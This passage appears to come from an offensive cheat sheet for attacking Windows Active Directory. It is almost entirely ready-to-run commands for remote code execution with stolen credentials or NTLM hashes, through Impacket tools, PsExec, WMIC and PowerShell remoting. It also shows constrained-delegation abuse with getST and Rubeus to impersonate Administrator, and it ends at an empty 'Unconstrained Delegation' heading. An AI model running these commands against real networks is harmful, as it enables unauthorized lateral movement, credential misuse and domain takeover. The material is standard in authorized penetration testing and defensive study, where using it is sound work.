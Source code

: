 #### Linux:

```bash
# Impacket
psexec.py domain.com/username:password@TARGET_IP
wmiexec.py domain.com/username:password@TARGET_IP
smbexec.py domain.com/username:password@TARGET_IP
dcomexec.py domain.com/username:password@TARGET_IP

# With hashes
psexec.py -hashes :NTLM_HASH domain.com/username@TARGET_IP
```

#### Windows:

```powershell
# PsExec
PsExec.exe \\TARGET_IP -u domain\username -p password cmd

# WMI
wmic /node:TARGET_IP /user:domain\username /password:password process call create "cmd.exe"

# PowerShell Remoting
Enter-PSSession -ComputerName TARGET_IP -Credential domain\username
Invoke-Command -ComputerName TARGET_IP -Credential domain\username -ScriptBlock {whoami}
```

---

## 🔍 Advanced Techniques

### 1. Constrained Delegation

#### Linux:

```bash
# Find delegation
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request-user TARGET_USER

# Exploit
getST.py -spn SERVICE/TARGET -impersonate Administrator domain.com/SERVICE_ACCOUNT:password
export KRB5CCNAME=Administrator.ccache
```

#### Windows:

```powershell
# Rubeus
.\Rubeus.exe s4u /user:SERVICE_ACCOUNT /rc4:HASH /impersonateuser:Administrator /msdsspn:SERVICE/TARGET /ptt
```

### 2. Unconstrained Delegation
